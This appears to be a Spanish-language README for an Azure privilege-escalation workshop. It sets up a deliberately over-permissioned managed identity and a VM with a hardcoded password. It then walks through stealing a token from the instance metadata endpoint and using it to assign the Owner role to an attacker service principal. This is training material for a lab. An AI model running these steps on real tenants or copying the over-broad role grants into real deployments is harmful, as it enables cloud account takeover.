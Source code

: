 # Escalada-de-Privilegios-en-Azure

## Fase 1: Configuración del Entorno Vulnerable

### Paso 1: Crear un Grupo de Recursos

Este grupo de recursos contendrá todos los elementos del laboratorio.

az group create --name lab-escalation --location eastus

### Paso 2: Crear una Identidad Administrada Asignada por el Usuario

Esta identidad tendrá permisos elevados que serán explotados más adelante.

az identity create --name labidentity --resource-group lab-escalation

### Paso 3: Introducir la Vulnerabilidad Principal

Asignamos el rol de User Access Administrator a la identidad sobre toda la suscripción. Este es un privilegio excesivo y el núcleo de la vulnerabilidad, ya que este rol permite gestionar los permisos de otros usuarios.

Obtener el ID de la suscripción

subscriptionId=$(az account show --query id --output tsv)

Obtener el ID de la entidad de servicio de la identidad administrada

identityPrincipalId=$(az identity show --name "labidentity" --resource-group "lab-escalation" --query principalId --output tsv)

 Asignar el rol de "User Access Administrator" a la identidad administrada sobre toda la suscripción
 ESTE ES EL CAMBIO CLAVE
 
az role assignment create \
    --assignee $identityPrincipalId \
    --role "User Access Administrator" \
    --scope "/subscriptions/$subscriptionId"


### Paso 4: Crear una Máquina Virtual y Asignarle la Identidad Administrada

Esta VM será el punto de entrada para los participantes.

az vm create \
    --resource-group "lab-escalation" \
    --name "compromised-vm" \
    --image "Ubuntu2204" \
    --admin-username "franklin" \
    --admin-password "Franklin.123456" \
    --assign-identity "labidentity"

### Paso 5: Crear un Usuario con Permisos Limitados

Creamos un Service Principal con permisos para ejecutar comandos en la VM. El rol Virtual Machine Contributor es necesario para permitir la ejecución de run-command.

Obtener el ID de la VM

vmId=$(az vm show --resource-group "lab-escalation" --name "compromised-vm" --query id --output tsv))

Crear el Service Principal con permisos sobre la VM

sp_credentials=$(az ad sp create-for-rbac --name "attacker-sp" --role "Virtual Machine Contributor" --scopes $vmId)

Mostrar las credenciales que se entregarán a los participantes

echo "--- Credenciales para los Participantes del Workshop ---"

echo $sp_credentials

echo "--------------------------------------------------------"

Acción: Copiar  (appId, password, tenant) generadas


¡Importante! Guarde y proporcione a los participantes del workshop el App ID, Password y Tenant ID generados en el último paso.

## Fase 2: Ejecución de la Escalada de Privilegios 

### 2.1. Obtener Acceso Inicial y Verificar Control
Iniciar sesión con las credenciales de atacante y confirmar que se pueden ejecutar comandos en la VM.

1. Iniciar sesión con las credenciales proporcionadas
   
az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"


### 2. Descubrimiento de la Identidad Administrada

Dentro de la VM (simulado a través de run-command), el siguiente paso es descubrir la identidad administrada.

Este script completo se ejecuta dentro de la VM para obtener el token y listar recursos

   1. Instalar silenciosamente jq, una herramienta necesaria para parsear JSON
      
      sudo apt-get update > /dev/null 2>&1 && sudo apt-get install -y jq > /dev/null 2>&1

  3. Obtener el token de acceso de la identidad, usando jq para extraerlo
     
        token=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true | jq -r .access_token)
        
      3. Usar el token para realizar una llamada a la API de Azure y listar recursos
         
       curl -s -X GET -H "Authorization: Bearer $token" "https://management.azure.com/subscriptions/$(az account show --query id -o tsv)/resourceGroups/lab-escalation-rg/resources?api-version=2021-04-01"

Resultado Esperado: Una salida JSON con la lista de todos los recursos del grupo lab-escalation. Esto prueba que el atacante ahora opera con los permisos de la identidad (User Access Administrator).

### Paso 2.1: Escalada Final a Propietario (Owner)
Utilizar el poder adquirido para tomar control total.
A. (En la máquina local) Obtener el Object ID del Service Principal atacante

user_object_id=$(az ad sp list --display-name "attacker-sp" --query "[0].id" -o tsv)
echo "El Object ID del atacante es: $user_object_id"


B. (Ejecutado en la VM) Usar la identidad para asignar el rol de Owner al atacante

  Reemplaza <Tu_Object_ID> y <ID_de_tu_Suscripcion> con tus valores.
  
  az login --identity > /dev/null 2>&1

  Asignar el rol de Propietario al Object ID del atacante
  
 az role assignment create --assignee "<Tu_Object_ID>" --role "Owner" --scope "/subscriptions/<ID_de_tu_Suscripcion>"

    
Resultado Esperado: Una salida JSON que confirma la creación de la nueva asignación de rol.

para deslogearte de la identidad administrada ejecuta el siguiente script

az logout

e inicia sesion con el owner que es el service principal

az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"

(En la máquina local) El atacante, ahora Owner, crea un nuevo grupo de recursos

az group create --name "prueba-de-control-total" --location "westus"
